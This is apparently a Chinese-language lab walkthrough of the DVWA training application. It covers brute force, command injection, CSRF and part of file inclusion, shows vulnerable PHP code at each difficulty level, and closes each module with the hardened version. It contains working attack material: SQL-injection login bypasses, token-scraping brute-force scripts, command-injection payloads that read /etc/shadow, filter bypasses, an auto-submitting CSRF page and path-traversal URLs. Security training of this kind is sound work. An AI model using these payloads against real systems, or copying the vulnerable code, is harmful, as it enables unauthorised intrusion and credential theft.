




# [dvwa](http://www.dvwa.co.uk/)

DVWA共有十个模块，分别是
```
Brute Force（暴力（破解））
Command Injection（命令行注入）
CSRF（跨站请求伪造）
File Inclusion（文件包含）
File Upload（文件上传）
Insecure CAPTCHA （不安全的验证码）
SQL Injection（SQL注入）
SQL Injection（Blind）（SQL盲注）
XSS（Reflected）（反射型跨站脚本）
XSS（Stored）（存储型跨站脚本）
```

## Reference
- [新手指南：DVWA-1.9全级别教程之Brute Force](https://www.freebuf.com/articles/web/116437.html)
- [新手指南：DVWA-1.9全级别教程之Command Injection](https://www.freebuf.com/articles/web/116714.html)
- [新手指南：DVWA-1.9全级别教程之CSRF](https://www.freebuf.com/articles/web/118352.html)
- [新手指南：DVWA-1.9全级别教程之File Inclusion](https://www.freebuf.com/articles/web/119150.html)


---

## 搭建/使用
**windows**

推荐用 [phpstudy](http://phpstudy.php.cn/) 进行快速搭建





修改 config.inc.php,配置数据库密码 `$_DVWA[ 'db_password' ] = 'root';`

>登录 Login URL: http://127.0.0.1/dvwa/login.php

>账号密码: admin/password

**难度**


---

## Brute Force
Brute Force，即暴力（破解），是指黑客利用密码字典，使用穷举法猜解出用户口令

### Low
**服务器端核心代码**
```php
<?php

if(isset($_GET['Login'])){
//Getusername
$user=$_GET['username'];

//Getpassword
$pass=$_GET['password'];
$pass=md5($pass);

//Checkthedatabase
$query="SELECT*FROM`users`WHEREuser='$user'ANDpassword='$pass';";
$result=mysql_query($query)ordie('<pre>'.mysql_error().'</pre>');

if($result&&mysql_num_rows($result)==1){
//Getusersdetails
$avatar=mysql_result($result,0,"avatar");

//Loginsuccessful
echo"<p>Welcometothepasswordprotectedarea{$user}</p>";
echo"<imgsrc="{$avatar}"/>";
}
else{
//Loginfailed
echo"<pre><br/>Usernameand/orpasswordincorrect.</pre>";
}

mysql_close();
}

?>
```
可以看到，服务器只是验证了参数 Login 是否被设置（isset 函数在 php 中用来检测变量是否设置，该函数返回的是布尔类型的值，即 true/false），没有任何的防爆破机制，且对参数 username、password 没有做任何过滤，存在明显的 sql 注入漏洞。

**利用爆破burpsuite**

0. burp的安装过程略
1. 抓包
2. ctrl+I将包复制到intruder模块，因为要对password参数进行爆破，所以在password参数的内容两边加$


3. 选中Payloads，载入字典，点击Start attack进行爆破


4. 最后，尝试在爆破结果中找到正确的密码，可以看到password的响应包长度（length）“与众不同”，可推测password为正确密码，手工验证登陆成功。

**手工sql注入**

1. Username : admin' or '1'='1 Password :（空）,此时sql语句如下图:


2. Username :admin' # Password :（空）,此时sql语句如下图:


### Medium
**服务器端核心代码**
```php
<?php

if(isset($_GET['Login'])){
//Sanitiseusernameinput
$user=$_GET['username'];
$user=mysql_real_escape_string($user);

//Sanitisepasswordinput
$pass=$_GET['password'];
$pass=mysql_real_escape_string($pass);
$pass=md5($pass);

//Checkthedatabase
$query="SELECT*FROM`users`WHEREuser='$user'ANDpassword='$pass';";
$result=mysql_query($query)ordie('<pre>'.mysql_error().'</pre>');

if($result&&mysql_num_rows($result)==1){
//Getusersdetails
$avatar=mysql_result($result,0,"avatar");

//Loginsuccessful
echo"<p>Welcometothepasswordprotectedarea{$user}</p>";
echo"<imgsrc="{$avatar}"/>";
}
else{
//Loginfailed
sleep(2);
echo"<pre><br/>Usernameand/orpasswordincorrect.</pre>";
}

mysql_close();
}

?>
```
相比 Low 级别的代码，Medium 级别的代码主要增加了 mysql_real_escape_string 函数，这个函数会对字符串中的特殊符号（x00，n，r，，’，”，x1a）进行转义，基本上能够抵御 sql 注入攻击，但 MySQL5.5.37 以下版本如果设置编码为 GBK，能够构造编码绕过 mysql_real_escape_string 对单引号的转义（因实验环境的 MySQL 版本较新，所以并未做相应验证）；同时，$pass 做了 MD5 校验，杜绝了通过参数 password 进行 sql 注入的可能性。但是，依然没有加入有效的防爆破机制（sleep(2)实在算不上）。

具体的 mysql_real_escape_string 函数绕过问题详见
- [PHP防SQL注入不要再用addslashes和mysql_real_escape_string了](https://web.archive.org/web/20171107192133/https://blog.csdn.net/hornedreaper1988/article/details/43520257)
- [PHP字符编码绕过漏洞总结](http://www.cnblogs.com/Safe3/archive/2008/08/22/1274095.html)
- [mysql_real_escape_string() versus Prepared Statements](https://ilia.ws/archives/103-mysql_real_escape_string-versus-Prepared-Statements.html)

虽然sql注入不再有效，但依然可以使用 Burpsuite 进行爆破，与 Low 级别的爆破方法基本一样，这里就不赘述了。

### High
**服务器端核心代码**
```php
<?php

if(isset($_GET['Login'])){
//CheckAnti-CSRFtoken
checkToken($_REQUEST['user_token'],$_SESSION['session_token'],'index.php');

//Sanitiseusernameinput
$user=$_GET['username'];
$user=stripslashes($user);
$user=mysql_real_escape_string($user);

//Sanitisepasswordinput
$pass=$_GET['password'];
$pass=stripslashes($pass);
$pass=mysql_real_escape_string($pass);
$pass=md5($pass);

//Checkdatabase
$query="SELECT*FROM`users`WHEREuser='$user'ANDpassword='$pass';";
$result=mysql_query($query)ordie('<pre>'.mysql_error().'</pre>');

if($result&&mysql_num_rows($result)==1){
//Getusersdetails
$avatar=mysql_result($result,0,"avatar");

//Loginsuccessful
echo"<p>Welcometothepasswordprotectedarea{$user}</p>";
echo"<imgsrc="{$avatar}"/>";
}
else{
//Loginfailed
sleep(rand(0,3));
echo"<pre><br/>Usernameand/orpasswordincorrect.</pre>";
}

mysql_close();
}

//GenerateAnti-CSRFtoken
generateSessionToken();

?>
```
High级别的代码加入了 Token，可以抵御 CSRF 攻击，同时也增加了爆破的难度，通过抓包，可以看到，登录验证时提交了四个参数：username、password、Login 以及 user_token。

每次服务器返回的登陆页面中都会包含一个随机的 user_token 的值，用户每次登录时都要将 user_token 一起提交。服务器收到请求后，会优先做 token 的检查，再进行 sql 查询。


同时，High 级别的代码中，使用了 stripslashes（去除字符串中的反斜线字符,如果有两个连续的反斜线,则只去掉一个）、 mysql_real_escape_string 对参数 username、password 进行过滤、转义，进一步抵御 sql 注入。

**使用python脚本爆破**

`适用于老版本dvwa环境`
```python
from bs4 import BeautifulSoup
import urllib2
header={
        'Host': '<改成你自己机器IP!!!>',
		'Cache-Control': 'max-age=0',
		'If-None-Match': "307-52156c6a290c0",
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
		'Accept': '*/*',
		'Referer': 'http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/index.php',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'zh-CN,zh;q=0.8',
		'Cookie': 'security=high; PHPSESSID=5re92j36t4f2k1gvnqdf958bi2'
        }
requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"

def get_token(requrl,header):
	req = urllib2.Request(url=requrl,headers=header)
	response = urllib2.urlopen(req)
	print response.getcode(),
	the_page = response.read()
	print len(the_page)
	soup = BeautifulSoup(the_page,"html.parser")
	user_token = soup.form.input.input.input.input["value"] # get the user_token
	return user_token

user_token = get_token(requrl,header)
i=0
for line in open("rkolin.txt"):
	requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
	i = i+1
	print i,'admin',line.strip(),
	user_token = get_token(requrl,header)
	if (i == 10):
		break
```
get_token 的功能是通过 python 的 BeautifulSoup 库从 html 页面中抓取 user_token 的值，为了方便展示，这里设置只尝试 10 次。

注:在最新版本中，由于 hard 难度的源代码修改，无法直接使用 BeautifulSoup 匹配 user_token 值，在此给出我略微修改的版本
```python
import requests, re
from bs4 import BeautifulSoup

requrl='http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/'
header={
        'Host': '<改成你自己机器IP!!!>',
		'Cache-Control': 'max-age=0',
		'If-None-Match': "307-52156c6a290c0",
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
		'Accept': '*/*',
		'Referer': 'http://192.168.153.130/dvwa/vulnerabilities/brute/index.php',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'zh-CN,zh;q=0.8',
		'Cookie': 'security=high; PHPSESSID=vlalfd2e2rbtptnd8pqqn646g4'
        }

def get_token(requrl,header):
    req = requests.get(url=requrl,headers=header)
    page = req.text
    soup = BeautifulSoup(page,"html.parser")
    value = soup.select("input[name=user_token]")

    key=str(value)
    p1 = r"(?<=value=\").+?(?=\")"
    pattern1 = re.compile(p1)
    matcher1 = re.search(pattern1,key)

    user_token= matcher1.group(0)
    a=str(user_token)
    print (req.status_code,len(page))
    return a

user_token = get_token(requrl,header)
i=0

for key in open("password.txt"):

    requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"+"?username=admin&password="+key.strip()+"&Login=Login&user_token="+user_token

    i = i+1
    print (i,'admin',key.strip(), end=" " )
    user_token = get_token(requrl,header)
    if (i == 100):
        break
```


注: 使用 urllib3 的 ProxyManager 可以让 python 产生的 http 请求流量通过 burpsutie 的 proxy

```python
import urllib3.request

    proxy = urllib3.ProxyManager('http://127.0.0.1:8080', headers=header)
    req = proxy.request('POST', url=requrl)
```


### Impossible
**服务器端核心代码**
```php
<?php

if(isset($_POST['Login'])){
//CheckAnti-CSRFtoken
checkToken($_REQUEST['user_token'],$_SESSION['session_token'],'index.php');

//Sanitiseusernameinput
$user=$_POST['username'];
$user=stripslashes($user);
$user=mysql_real_escape_string($user);

//Sanitisepasswordinput
$pass=$_POST['password'];
$pass=stripslashes($pass);
$pass=mysql_real_escape_string($pass);
$pass=md5($pass);

//Defaultvalues
$total_failed_login=3;
$lockout_time=15;
$account_locked=false;

//Checkthedatabase(Checkuserinformation)
$data=$db->prepare('SELECTfailed_login,last_loginFROMusersWHEREuser=(:user)LIMIT1;');
$data->bindParam(':user',$user,PDO::PARAM_STR);
$data->execute();
$row=$data->fetch();

//Checktoseeiftheuserhasbeenlockedout.
if(($data->rowCount()==1)&&($row['failed_login']>=$total_failed_login)){
//Userlockedout.Note,usingthismethodwouldallowforuserenumeration!
//echo"<pre><br/>Thisaccounthasbeenlockedduetotoomanyincorrectlogins.</pre>";

//Calculatewhentheuserwouldbeallowedtologinagain
$last_login=$row['last_login'];
$last_login=strtotime($last_login);
$timeout=strtotime("{$last_login}+{$lockout_time}minutes");
$timenow=strtotime("now");

//Checktoseeifenoughtimehaspassed,ifithasn'tlockedtheaccount
if($timenow>$timeout)
$account_locked=true;
}

//Checkthedatabase(ifusernamematchesthepassword)
$data=$db->prepare('SELECT*FROMusersWHEREuser=(:user)ANDpassword=(:password)LIMIT1;');
$data->bindParam(':user',$user,PDO::PARAM_STR);
$data->bindParam(':password',$pass,PDO::PARAM_STR);
$data->execute();
$row=$data->fetch();

//Ifitsavalidlogin...
if(($data->rowCount()==1)&&($account_locked==false)){
//Getusersdetails
$avatar=$row['avatar'];
$failed_login=$row['failed_login'];
$last_login=$row['last_login'];

//Loginsuccessful
echo"<p>Welcometothepasswordprotectedarea<em>{$user}</em></p>";
echo"<imgsrc="{$avatar}"/>";

//Hadtheaccountbeenlockedoutsincelastlogin?
if($failed_login>=$total_failed_login){
echo"<p><em>Warning</em>:Someonemightofbeenbruteforcingyouraccount.</p>";
echo"<p>Numberofloginattempts:<em>{$failed_login}</em>.<br/>Lastloginattemptwasat:<em>${last_login}</em>.</p>";
}

//Resetbadlogincount
$data=$db->prepare('UPDATEusersSETfailed_login="0"WHEREuser=(:user)LIMIT1;');
$data->bindParam(':user',$user,PDO::PARAM_STR);
$data->execute();
}
else{
//Loginfailed
sleep(rand(2,4));

//Givetheusersomefeedback
echo"<pre><br/>Usernameand/orpasswordincorrect.<br/><br/>Alternative,theaccounthasbeenlockedbecauseoftoomanyfailedlogins.<br/>Ifthisisthecase,<em>pleasetryagainin{$lockout_time}minutes</em>.</pre>";

//Updatebadlogincount
$data=$db->prepare('UPDATEusersSETfailed_login=(failed_login+1)WHEREuser=(:user)LIMIT1;');
$data->bindParam(':user',$user,PDO::PARAM_STR);
$data->execute();
}

//Setthelastlogintime
$data=$db->prepare('UPDATEusersSETlast_login=now()WHEREuser=(:user)LIMIT1;');
$data->bindParam(':user',$user,PDO::PARAM_STR);
$data->execute();
}

//GenerateAnti-CSRFtoken
generateSessionToken();

?>
```
可以看到 Impossible 级别的代码加入了可靠的防爆破机制，当检测到频繁的错误登录后，系统会将账户锁定，爆破也就无法继续。

同时采用了更为安全的 PDO（PHP Data Object）机制防御 sql 注入，这是因为不能使用 PDO 扩展本身执行任何数据库操作，而 sql 注入的关键就是通过破坏 sql 语句结构执行恶意的 sql 命令。

关于PDO
- [PHP学习笔记之PDO](https://www.cnblogs.com/pinocchioatbeijing/archive/2012/03/20/2407869.html)

---

## Command Injection
Command Injection，即命令注入，是指通过提交恶意构造的参数破坏命令语句结构，从而达到执行恶意命令的目的。PHP命令注入攻击漏洞是PHP应用程序中常见的脚本漏洞之一，国内著名的Web应用程序Discuz!、DedeCMS等都曾经存在过该类型漏洞。

### Low
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

**相关函数介绍**
- **stristr(string,search,before_search)**

	stristr函数搜索字符串在另一字符串中的第一次出现，返回字符串的剩余部分（从匹配点），如果未找到所搜索的字符串，则返回 FALSE。参数string规定被搜索的字符串，参数search规定要搜索的字符串（如果该参数是数字，则搜索匹配该数字对应的 ASCII 值的字符），可选参数before_true为布尔型，默认为“false” ，如果设置为 “true”，函数将返回 search 参数第一次出现之前的字符串部分。

- **php_uname(mode)**

	这个函数会返回运行php的操作系统的相关描述，参数mode可取值”a” （此为默认，包含序列”s n r v m”里的所有模式），”s ”（返回操作系统名称），”n”（返回主机名），” r”（返回版本名称），”v”（返回版本信息）， ”m”（返回机器类型）。

	可以看到，服务器通过判断操作系统执行不同ping命令，但是对ip参数并未做任何的过滤，导致了严重的命令注入漏洞。

**漏洞利用**

windows 和 linux 系统都可以用 && 来执行多条命令

`127.0.0.1 && net user`

Linux 下输入 `127.0.0.1 && cat /etc/shadow` 甚至可以读取 shadow 文件，可见危害之大。

### Medium
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```
可以看到，相比Low级别的代码，服务器端对ip参数做了一定过滤，即把”&&” 、”;”删除，本质上采用的是黑名单机制，因此依旧存在安全问题。

**漏洞利用**

`127.0.0.1 & net user`

因为被过滤的只有”&&”与” ;”，所以”&”不会受影响。

这里需要注意的是”&&”与” &”的区别：

`Command 1 && Command 2`
先执行 Command 1，执行成功后执行 Command 2，否则不执行 Command 2
`Command 1 & Command 2`
先执行 Command 1，不管是否成功，都会执行 Command 2

**漏洞利用2**

由于使用的是 str_replace 把”&&” 、”;”替换为空字符，因此可以采用以下方式绕过：

`127.0.0.1 &;& ipconfig`

这是因为 `127.0.0.1&;&ipconfig` 中的 `;` 会被替换为空字符，这样一来就变成了 `127.0.0.1&& ipconfig` ，会成功执行。

### High
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```
相比 Medium 级别的代码，High 级别的代码进一步完善了黑名单，但由于黑名单机制的局限性，我们依然可以绕过。

**漏洞利用**

黑名单看似过滤了所有的非法字符，但仔细观察到是把`| `（注意这里|后有一个空格）替换为空字符，于是 ”|”成了“漏网之鱼”。

`127.0.0.1|net user`
Command 1 | Command 2

`|`是管道符，表示将 Command 1 的输出作为 Command 2 的输入，并且只打印 Command 2 执行的结果。

### Impossible
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $target = $_REQUEST[ 'ip' ];
    $target = stripslashes( $target );

    // Split the IP into 4 octects
    $octet = explode( ".", $target );

    // Check IF each octet is an integer
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
        // If all 4 octets are int's put the IP back together.
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

        // Determine OS and execute the ping command.
        if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
            // Windows
            $cmd = shell_exec( 'ping  ' . $target );
        }
        else {
            // *nix
            $cmd = shell_exec( 'ping  -c 4 ' . $target );
        }

        // Feedback for the end user
        echo "<pre>{$cmd}</pre>";
    }
    else {
        // Ops. Let the user name theres a mistake
        echo '<pre>ERROR: You have entered an invalid IP.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

**相关函数介绍**
- **stripslashes(string)**

	stripslashes 函数会删除字符串 string 中的反斜杠，返回已剥离反斜杠的字符串。

- **explode(separator,string,limit)**

	把字符串打散为数组，返回字符串的数组。参数 separator 规定在哪里分割字符串，参数 string 是要分割的字符串，可选参数 limit 规定所返回的数组元素的数目。

- **is_numeric(string)**

	检测 string 是否为数字或数字字符串，如果是返回 TRUE，否则返回 FALSE。

	可以看到，Impossible 级别的代码加入了 Anti-CSRF token，同时对参数 ip 进行了严格的限制，只有诸如“数字.数字.数字.数字”的输入才会被接收执行，因此不存在命令注入漏洞。

## CSRF
CSRF，全称Cross-site request forgery，翻译过来就是跨站请求伪造，是指利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。在2013年发布的新版OWASP Top 10中，CSRF排名第8。

### Low
**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = mysql_real_escape_string( $pass_new );
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    mysql_close();
}

?>
```
可以看到，服务器收到修改密码的请求后，会检查参数 `password_new` 与 `password_conf` 是否相同，如果相同，就会修改密码，并没有任何的防 CSRF 机制（当然服务器对请求的发送者是做了身份验证的，是检查的 cookie，只是这里的代码没有体现= =）。

**漏洞利用**

`http://<IP地址!!!>/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#`

当受害者点击了这个链接，他的密码就会被改成 password（这种攻击显得有些拙劣，链接一眼就能看出来是改密码的，而且受害者点了链接之后看到这个页面就会知道自己的密码被篡改了）

需要注意的是，CSRF 最关键的是利用受害者的 cookie 向服务器发送伪造请求，所以如果受害者之前用 A 浏览器登录的这个系统，而用 B 浏览器点击这个链接，攻击是不会触发的，因为 B 浏览器并不能利用 Chrome 浏览器的 cookie，所以会自动跳转到登录界面。

有人会说，这个链接也太明显了吧，不会有人点的，没错，所以真正攻击场景下，我们需要对链接做一些处理。

**漏洞利用2**

我们可以使用短链接来隐藏 URL（点击短链接，会自动跳转到真实网站），自寻搜索"短网址工具 "

**漏洞利用3**

可以构造攻击页面，现实攻击场景下，这种方法需要事先在公网上传一个攻击页面，诱骗受害者去访问，真正能够在受害者不知情的情况下完成 CSRF 攻击。这里为了方便演示，就在本地写一个 test.html，下面是具体代码。

```html
/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/>

<h1>404<h1>

<h2>file not found.<h2>
```


### Medium
**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( eregi( $_SERVER[ 'SERVER_NAME' ], $_SERVER[ 'HTTP_REFERER' ] ) ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = mysql_real_escape_string( $pass_new );
            $pass_new = md5( $pass_new );

            // Update the database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    mysql_close();
}

?>
```

**相关函数说明**
- **int eregi(string pattern, string string)**

	检查 string 中是否含有 pattern（不区分大小写），如果有返回 True，反之 False。

可以看到，Medium 级别的代码检查了保留变量 HTTP_REFERER（http 包头的 Referer 参数的值，表示来源地址）中是否包含 SERVER_NAME（http 包头的 Host 参数，及要访问的主机名，这里是 dvwa靶机的IP地址），希望通过这种机制抵御 CSRF 攻击。

**漏洞利用**

过滤规则是 http 包头的 Referer 参数的值中必须包含主机名（这里是 dvwa 靶机的 IP 地址）

我们可以将攻击页面命名为 <dvwa靶机的IP地址>.html 就可以绕过了


### High
**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = mysql_real_escape_string( $pass_new );
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    mysql_close();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

可以看到，High 级别的代码加入了 Anti-CSRF token 机制，用户每次访问改密页面时，服务器会返回一个随机的 token，向服务器发起请求时，需要提交 token 参数，而服务器在收到请求时，会优先检查 token，只有 token 正确，才会处理客户端的请求。

**漏洞利用**

要绕过 High 级别的反 CSRF 机制，关键是要获取 token，要利用受害者的 cookie 去修改密码的页面获取关键的 token。

试着去构造一个攻击页面，将其放置在攻击者的服务器，引诱受害者访问，从而完成 CSRF 攻击，下面是代码。

```html
<script type="text/javascript">
	function attack()
	{
	document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
	document.getElementById("transfer").submit();
	}
</script>

<iframe src="http://<IP地址!!!>/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">
</iframe>

<body onload="attack()">
<form method="GET" id="transfer" action="http://<IP地址!!!>/dvwa/vulnerabilities/csrf">
	<input type="hidden" name="password_new" value="password">
	<input type="hidden" name="password_conf" value="password">
	<input type="hidden" name="user_token" value="">
	<input type="hidden" name="Change" value="Change">
</form>

</body>
```

攻击思路是当受害者点击进入这个页面，脚本会通过一个看不见框架偷偷访问修改密码的页面，获取页面中的 token，并向服务器发送改密请求，以完成 CSRF 攻击。

然而理想与现实的差距是巨大的，这里牵扯到了跨域问题，而现在的浏览器是不允许跨域请求的。这里简单解释下跨域，我们的框架 iframe 访问的地址是 http://<dvwa靶机IP>/dvwa/vulnerabilities/csrf ，位于服务器 A 上，而我们的攻击页面位于黑客服务器 B 上，两者的域名不同，域名 B 下的所有页面都不允许主动获取域名 A 下的页面内容，除非域名 A 下的页面主动发送信息给域名 B 的页面，所以我们的攻击脚本是不可能取到改密界面中的 user_token。

由于跨域是不能实现的，所以我们要将攻击代码注入到 dvwa 靶机中，才有可能完成攻击。下面利用 High 级别的 XSS 漏洞协助获取 Anti-CSRF token（因为这里的 XSS 注入有长度限制，不能够注入完整的攻击脚本，所以只获取 Anti-CSRF token）。


略


### Impossible
**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_curr = $_GET[ 'password_current' ];
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Sanitise current password input
    $pass_curr = stripslashes( $pass_curr );
    $pass_curr = mysql_real_escape_string( $pass_curr );
    $pass_curr = md5( $pass_curr );

    // Check that the current password is correct
    $data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
    $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
    $data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
    $data->execute();

    // Do both new passwords match and does the current password match the user?
    if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) {
        // It does!
        $pass_new = stripslashes( $pass_new );
        $pass_new = mysql_real_escape_string( $pass_new );
        $pass_new = md5( $pass_new );

        // Update database with new password
        $data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' );
        $data->bindParam( ':password', $pass_new, PDO::PARAM_STR );
        $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
        $data->execute();

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match or current password incorrect.</pre>";
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
可以看到，Impossible 级别的代码利用 PDO 技术防御 SQL 注入，至于防护 CSRF，则要求用户输入原始密码（简单粗暴），攻击者在不知道原始密码的情况下，无论如何都无法进行 CSRF 攻击。

---

## File Inclusion
File Inclusion，意思是文件包含（漏洞），是指当服务器开启 allow_url_include 选项时，就可以通过 php 的某些特性函数（include()，require() 和 include_once()，require_once()）利用 url 去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了 php 置中的 allow_url_fopen 选项（选项开启之后，服务器允许包含一个远程的文件）。

phpstudy开一下这2个参数


### Low
**服务器端核心代码**
```php
<php
//Thepagewewishtodisplay
$file=$_GET['page'];
>
```

可以看到，服务器端对 page 参数没有做任何的过滤跟检查。

服务器期望用户的操作是点击下面的三个链接，服务器会包含相应的文件，并将结果返回。需要特别说明的是，服务器包含文件时，不管文件后缀是否是 php，都会尝试当做 php 文件执行，如果文件内容确为 php，则会正常执行并返回结果，如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。

点击 file1.php 后，显示如下


而现实中，恶意的攻击者是不会乖乖点击这些链接的，因此 page 参数是不可控的。

**本地文件包含**

构造 url`http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=/etc/shadow`
报错，显示没有这个文件，说明不是服务器系统不是 Linux,但同时暴露了服务器文件的绝对路径


- **构造url（绝对路径）**

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=C:/phpStudy/PHPTutorial/WWW/DVWA/php.ini`

    

    成功读取了服务器的 php.ini 文件

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=file4.php`

- **构造url（相对路径）**

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini`

    加这么多 ..\ 是为了保证到达服务器的C盘根目录，可以看到读取是成功的。

    

